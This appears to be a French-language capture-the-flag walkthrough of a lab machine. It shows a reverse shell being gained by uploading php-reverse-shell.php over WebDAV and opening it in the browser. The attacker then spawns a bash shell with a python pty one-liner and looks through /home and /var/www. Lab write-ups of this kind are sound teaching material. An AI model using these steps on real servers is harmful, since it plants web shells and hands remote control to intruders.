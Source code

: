 Affichons la liste des commandes disponibles.

```bash
dav:/webdav/> help
Available commands:
 ls         cd         pwd        put        get        mget       mput
 edit       less       mkcol      cat        delete     rmcol      copy
 move       lock       unlock     discover   steal      showlocks  version
 checkin    checkout   uncheckout history    label      propnames  chexec
 propget    propdel    propset    search     set        open       close
 echo       quit       unset      lcd        lls        lpwd       logout
 help       describe   about
Aliases: rm=delete, mkdir=mkcol, mv=move, cp=copy, more=less, quit=exit=bye
```

Celle qui nous intréresse est `put`.

```bash
dav:/webdav/> put php-reverse-shell.php
Uploading php-reverse-shell.php to `/webdav/php-reverse-shell.php':
Progress: [=============================>] 100,0% of 5494 bytes succeeded.
```

Si on rafraichit le répertoire [http://door.legacyhangtuah.com/webdav](http://door.legacyhangtuah.com/webdav), le reverse shell apparait dans la liste des fichiers que l'on exécute en cliquant dessus.

## Pénétration

Dans l'autre onglet du terminal, la connexion au serveur est établi.

```bash
$ python3 -c 'import pty;pty.spawn("/bin/bash")'
$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

On peut ouvrir un fichier dans le dossier "/home".

```bash
$ cat /home/pendekar/send_letter.txt
23595 Gold for you!!
```

On retourne dans le dossier de l'utilsateur "www-data".

```bash
$ cd /var/www && ls -la
-rw-------  1 www-data www-data 6378 Aug 25  2020 .bash_history
drwx------  2 www-data www-data 4096 May  3 17:49 .gnupg
drwxrwxrwx  3 www-data www-data 4096 Aug 24  2020 .local
-rw-rw-rw-  1 www-data www-data  180 May  3 17:47 .wget-hsts
drwxr-xr-x  3 www-data www-data 4096 Aug 21  2020 chest
drwxr-xr-x  3 www-data www-data 4096 Aug 24  2020 door.legacyhangtuah.com
drwxr-xr-x  2 www-data www-data 4096 Aug 24  2020 html
drwxr-xr-x  3 www-data www-data 4096 Aug 24  2020 legacyhangtuah.com
drwxr-xr-x  3 www-data www-data 4096 May  3 17:49 snap
```
